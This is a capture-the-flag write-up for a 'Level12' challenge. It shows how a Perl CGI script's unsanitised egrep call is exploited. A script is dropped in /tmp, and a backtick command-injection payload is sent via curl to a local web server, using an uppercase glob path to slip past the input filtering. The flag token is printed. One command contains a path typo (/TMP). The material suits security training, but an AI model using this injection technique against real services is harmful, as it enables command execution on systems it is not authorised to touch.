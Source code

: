 # Level12

A perl script can be found in the directory with flag12 rights. This time we have an unprotected egrep on user input string. However, the input string goes through some manipulation.

```perl
$xx =~ tr/a-z/A-Z/;
# changes lowercase to uppercase

$xx =~ s/\s.*//;
# removes spaces
```

Therefore we cannot input the command directly through the string but we can inject the path to a script that will run getflag, as long as the path has no spaces or lowercase letters.

```bash
touch /tmp/RUNME
echo "getflag > /tmp/token" > /tmp/RUNME
chmod +x /TMP/RUNME
```

Similar to level04 this script uses CGI, and its defined webserver is `localhost:4646`
We can use curl to pass the path parameter that be assigned to `$xx`

```bash
curl http://localhost:4646?x=\`/*/RUNME\`
cat /tmp/token
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```